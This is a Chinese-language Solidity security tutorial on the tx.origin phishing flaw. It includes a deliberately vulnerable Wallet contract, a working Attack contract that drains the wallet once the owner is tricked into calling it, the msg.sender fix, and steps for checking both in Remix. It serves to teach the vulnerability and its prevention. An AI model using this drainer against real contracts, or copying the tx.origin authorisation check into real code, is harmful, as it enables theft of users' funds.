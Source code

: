 # 73.Phishing with tx.origin
## msg.sender和tx.origin有什么区别？
如果合约A调用B，B调用C，在C中msg.sender是B，tx.origin是A。

## 漏洞
恶意合约可以欺骗合约所有者调用只有所有者才能调用的函数。
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

/*
Wallet是一个简单的合约，只有所有者才能将以太币转移到另一个地址。
Wallet.transfer()使用tx.origin来检查调用者是否为所有者。
让我们看看如何攻击这个合约。
*/

/*
1. Alice部署Wallet并存入10个以太币
2. Eve部署Attack并传入Alice的Wallet合约地址
3. Eve欺骗Alice调用Attack.attack()
4. Eve成功从Alice的钱包中窃取了以太币

发生了什么？
Alice被欺骗调用Attack.attack()。在Attack.attack()内部，它请求将Alice钱包中的所有资金转移到Eve的地址。
由于Wallet.transfer()中的tx.origin等于Alice的地址，它授权了转移。钱包将所有以太币转移到了Eve。
*/

contract Wallet {
    address public owner;

    constructor() payable {
        owner = msg.sender;
    }

    function transfer(address payable _to, uint _amount) public {
        require(tx.origin == owner, "Not owner");

        (bool sent, ) = _to.call{value: _amount}("");
        require(sent, "Failed to send Ether");
    }
}

contract Attack {
    address payable public owner;
    Wallet wallet;

    constructor(Wallet _wallet) {
        wallet = Wallet(_wallet);
        owner = payable(msg.sender);
    }

    function attack() public {
        wallet.transfer(owner, address(wallet).balance);
    }
}
```
### 预防技术
使用msg.sender代替tx.origin

```solidity
function transfer(address payable _to, uint256 _amount) public {
  require(msg.sender == owner, "Not owner");

  (bool sent, ) = _to.call{ value: _amount }("");
  require(sent, "Failed to send Ether");
}
```

## remix验证
1. 署Wallet合约并转入10 eth
![73-1.jpg](img/73-1.jpg)
2. 部署attack合约传入Wallet合约地址为参数，调用attack合约，可以看到，盗取了eth
![73-2.jpg](img/73-2.jpg)
3. 尝试使用msg.sender代替tx.origin，同样的方式用attack合约攻击，验证可看到攻击失败
![73-3.jpg](img/73-3.jpg)